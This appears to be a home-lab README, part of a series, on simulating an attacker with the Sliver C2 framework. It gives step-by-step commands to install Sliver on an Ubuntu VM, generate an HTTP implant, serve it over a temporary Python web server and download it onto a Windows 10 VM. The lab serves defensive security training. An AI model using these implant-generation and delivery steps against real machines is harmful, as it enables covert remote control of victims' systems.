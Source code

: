 # Phase 3: Simulating Attacker Behavior Using Sliver C2

## A) Setting Up Sliver C2 Framework on Ubuntu VM

**Sliver** is a powerful **command and control (C2)** framework designed to provide advanced capabilities for controlling remote systems. It is open-source and can be used for security testing, and unfortunately, by bad actors as well.

> [!NOTE]
> With **Sliver**, security professionals, red teams, and penetration testers can easily establish a secure and reliable communication channel over Mutual TLS, HTTP(S), DNS, or Wireguard with target machines.

### On the Ubuntu VM:

1. Log in with the credentials you set up for your Ubuntu VM.

2. Switch to a **root** command prompt:
   
  ````
  sudo su
  ````
3. We need to ensure the IP address of the Ubuntu VM does not change.
   
   - Find the **ens33** - **inet IP** with the following command:
     
     ````
     ip a
     ````

4. Find the gateway IP address of the VM with the following command:

````
ping _gateway -c 1
````
![image](https://github.com/user-attachments/assets/94fba417-0f86-4ead-9d13-0065ef18bf19)

> [!NOTE]
> Take note of the **Ubuntu VM's IP** and **gateway IP** as you will need it again throughout this project.

</br>

5. Edit the configuration file for the network manager "netplan" with the following command:

````
sudo nano /etc/netplan/00-installer-config.yaml
````

</br>

6. The **GNU nano** page will populate and we will be reconfiguring our adapter from DHCP to a statically assigned IP address:

   - Be sure to adjust the "**xxx**" values to your Ubuntu VM's specific IP address and gateway address.
   - Once done, press "**Ctrl + X**" to **Exit** and **Save the buffer**.
   - File Name to Write: **/etc/netplan/00-installer-config.yaml**
   - Press **Enter**.
  
![image](https://github.com/user-attachments/assets/3a1e9ccb-a6de-45d8-a180-aa1144b9a23e)

</br>

7. Test the new configuration for errors with the following command:

````
sudo netplan try
````

> [!NOTE]
> You can ignore the warning signs about the **deprecated gateway4**.

</br>

8. If there are no errors, apply the configuration:

````
sudo netplan apply
````

</br>

9. Perform a quick connectivity check by pinging the Google DNS:

````
ping 8.8.8.8
````

> [!NOTE]
> We should now have a **statically assigned IP address** that will not change.

</br>

## B) SSH into Ubuntu VM from Host Machine

1. Next, we will **SSH** into the Ubuntu VM from your host system to make command line interface (CLI) actions easier.
    
      - Open a command prompt on your host machine and run the command:

      </br>

     ````
     ssh user@xxx.xxx.xxx.xxx
     ````
      - Be sure to adjust the "**xxx**" values to your Ubuntu VM's IP address.
      - When prompted, type in "**yes**".


![image](https://github.com/user-attachments/assets/b7f5b710-0272-47a8-9867-efe44afc6eed)

</br>

2. From within this new SSH session, proceed with the following instructions to set up our attack **command-and-control (C2) server**.

      - Start with a **root shell**:

     </br>

     ````
     sudo su
     ````
   
3. Run the following command to download **Sliver**:

````
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
````

</br>

4. Make the file **executable** with the following command:

````
chmod +x /usr/local/bin/sliver-server
````

</br>

5. Install **mingw-w64** (short for Minimalist GNU for Windows 64-bit), a toolchain that allows you to generate Windows executables (.exe):

````
apt install -y mingw-w64
````

</br>

6. Create a **working directory** that we will use in the next steps:

````
mkdir -p /opt/sliver
````

</br>

## C) Generating Our C2 Payload

1. While in the **SSH session**, launch the **Sliver server** with the following command:

````
sliver-server
````

![image](https://github.com/user-attachments/assets/2897ce50-d79b-4823-bcd5-bca5543b290d)

</br>

2. Within the **Sliver shell**, generate a **C2 session payload** with the following command:

````
generate --http xxx.xxx.xxx.xxx --save /opt/sliver
````

> [!IMPORTANT]
> Be sure to adjust the "**xxx***" values to those of your Ubuntu VM's IP address.

![image](https://github.com/user-attachments/assets/87225245-3b93-47ee-8968-4997a109efe9)

> [!NOTE]
> Take note of the randomized name of the **output file**. It will be *unique* each time.

</br>

3. Confirm the new **implant configuration** with the following command:

````
implants
````
![image](https://github.com/user-attachments/assets/c1d2ac90-b9a3-4409-b8c1-d264a1afd7ab)

</br>

4. Now that we have a C2 payload, we can exit Sliver with the following command:

````
exit
````

## D) Downloading C2 Payload Onto Windows 10 VM

While in the **SSH session**, we will use **Python** to download the C2 payload from the **Ubuntu VM** to our **Windows 10 VM**:

1. First, navigate to the following folder:
     
   ````
   cd /opt/sliver
   ````

2. Next, the following **Python** command will spin up a **temporary server**:
     
   ````
   python3 -m http.server 80
   ````

3. Switch to the **Windows 10 VM** and launch an **Administrative PowerSHell console**

4. Run the following command to download the C2 payload from the Ubuntu VM:

````
IWR -Uri http://xxx.xxx.xxx.xxx/[payload_name].exe -Outfile C:\Users\User\Downloads[payload_name.exe
````
> [!IMPORTANT]
> Be sure to adjust the "**xxx**" values to your Ubuntu VM's IP address. Also, adjust the **payload_name** to your unique outfile file name from **Part C: Step 2**.
